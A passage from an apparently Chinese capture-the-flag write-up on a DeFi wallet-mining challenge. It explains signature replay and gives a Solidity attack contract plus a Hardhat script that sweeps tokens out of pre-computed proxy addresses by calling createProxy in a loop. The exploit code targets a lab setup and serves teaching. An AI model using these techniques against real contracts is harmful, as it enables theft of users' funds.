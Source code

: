 ```javascript

        console.log("victim received eth in wei : %s", await ethers.provider.getBalance(victim));
```

此时，尽管是player假冒，但扣的依旧是victim的ETH，这就是签名重放的危害。（切记一定要注意顺序，因为`nonce`仍是`victim`的地址）。

我们接下来的传入不会通过`WalletDeployer`进行，因为它创建`proxy`时所指定的逻辑地址是`copy`。而我们则是想转账回去，所以我们自己手写攻击合约：

```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "hardhat/console.sol";

contract HackerWalletMining1 {

    constructor(){

    }

    function tryHack(IERC20 token,address receiver) public{
        if (token.balanceOf(address(this))!=0){
            console.log("attacking...");
            token.transfer(receiver,token.balanceOf(address(this)));
            console.log("finish transfering");
        }
    }


}
```

很明显，我们要通过`proxyFactory`生成合约，如果对应token有余额，则我们会进行转出。

```solidity
        const hacker1 = await (await ethers.getContractFactory('HackerWalletMining1', player)).deploy();

        const calldata = hacker1.interface.encodeFunctionData(
            "tryHack(address,address)",[token.address,player.address]
        );

        const factory = (await ethers.getContractFactory("GnosisSafeProxyFactory")).attach(deployFac.contractAddress);
        console.log("Get Factory instance : %s",factory.address);

        for (i = 0; i < 100; i++){
           await factory.connect(player).createProxy(hacker1.address,calldata);
        }
```

很幸运，我们已经从空闲地址转移出来了通证，下面就是试着拿到`walletDeployer`中的43个通证了。这个切入点就是看看能不能将合约升级，`can`返回值永远通过！
